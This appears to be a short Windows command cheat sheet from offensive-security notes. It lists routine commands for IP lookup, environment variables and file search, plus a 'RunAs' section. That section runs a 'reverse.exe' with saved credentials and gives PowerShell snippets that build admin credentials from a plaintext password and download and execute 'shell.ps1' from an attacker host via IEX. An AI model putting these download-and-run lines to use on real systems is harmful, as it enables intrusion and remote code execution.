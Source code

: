## Windows


## Copy output to clipboard

```
| clip
```

## Get computers IP Address

```
ipconfig|find "IPv4"
```

## Use Environment Variables

```
echo %OS%
echo %PROCESSOR_ARCHITECTURE%
```

## Find Files

```
dir /s <filename> # or extensions
Get-ChildItem -Path C:\ -Include *filename_wildcard* -Recurse -ErrorAction SilentlyContinue
```

## Find Large Files over 50MB

```
find / -type f -size +50M
```

## Display Environment Variables

```
set
```

## RunAs

```
# cmd
runas /savecred /user:admin C:\abcd\reverse.exe

# PowerShell Runas 1
$password = ConvertTo-SecureString 'pass123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('Administrator', $password)
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.WebClient).downloadString('http://kali_ip/shell.ps1')" -Credential $cred

# PowerShell Runas 2
$username = "domain\Administrator"
$password = "pass123"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.16/shell.ps1') } -Credential $cred -Computer localhost
```

## Wmi tasklist

```
Look at applications or services installed in Program Files directory is usually user installed
If so use 'icacls' to see permissions of said file and who can run said file
```